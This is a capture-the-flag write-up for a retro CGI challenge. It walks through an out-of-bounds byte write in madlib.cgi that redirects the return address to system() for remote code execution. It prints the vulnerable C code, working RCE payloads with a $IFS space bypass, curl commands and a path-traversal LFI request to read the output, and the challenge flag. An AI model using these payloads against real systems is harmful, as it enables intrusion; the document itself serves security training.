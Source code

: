 
If we controlled the execution flow we could `jump` into `system()` executing arbitrary code (RCE), but for that we need to previously have under control the buffer that contains the parameters it'll execute.

Fortunately, the handler of the `QUERY_STRING` has a vulnerability in the `fix` parameter that allows us to write bytes into the stack out of bounds. Furthermore, we can abuse this vulnerability in a way to overwrite the last byte of the original return address and pointing it to the `system()` function instead of the original return address. In addition, `QUERY_STRING` is already under control, so the RCE is trivial.

The part of the vulnerable code:

```c
status = strncmp(query_string,"fix",3);
if (status == 0) {
  write_ptr = query_string + 3;
  write_value = strchr(write_ptr,0x3d);
  if (write_value != (char *)0x0) {
    local_228 = pcVar2 + 1;
    *pcVar2 = '\0';
    write_ptr = (char *)url_decode(write_ptr);
    local_228 = (char *)url_decode(write_value);
    write_ptr = atoi(write_ptr);
    write_value = atoi(write_value);
    buf[write_ptr] = (char)write_value;  // Relative write
  }
}
```

# Exploiting madlib.cgi and gaining remote code execution

The offset needed to overwrite the return address, starting from the base of the user's input buffer, is 544 bytes. So we are ready to override the last byte of the original return address in offset 544 (0x2b) with the value 133 (0x85) in order to jump to `system()` and execute the command stored in the users input buffer `QUERY_STRING`. 

For example we can execute `whoami` command with this payload:

`GET /cgi-bin/madlib.cgi?whoami>/tmp/solve&fix544=133 HTTP/1.1`

Notice that the command's output is redirected to a file because the `stdout` of `system` command is not directly visible in the response. So we need to use the LFI to check the output.

# Getting the Flag

We encountered another problem during the flag search, the space character was not interpreted correctly and we couldn't execute any commands containing spaces. The easiest way to bypass this limitation is to replace spaces with `$IFS` system variable, which by default, is declared to space.

In the root directory we can find a `showflag` binary, we execute it and... PROFIT!

Our final payload is:

```
# Execute /showflag and redirect the output to /tmp/solve
curl "http://retro-01.hfsc.tf:8080/cgi-bin/madlib.cgi?/showflag>/tmp/solve&fix544=133" 

# Use LFI to read the previously executed commands output 
curl "http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi?///////////////////////////////////////////////////////////////////////////../../../../../../tmp/solve/.gif"

# midnight{ebb1d7808ec033c2fc0cba0829863b66}
```
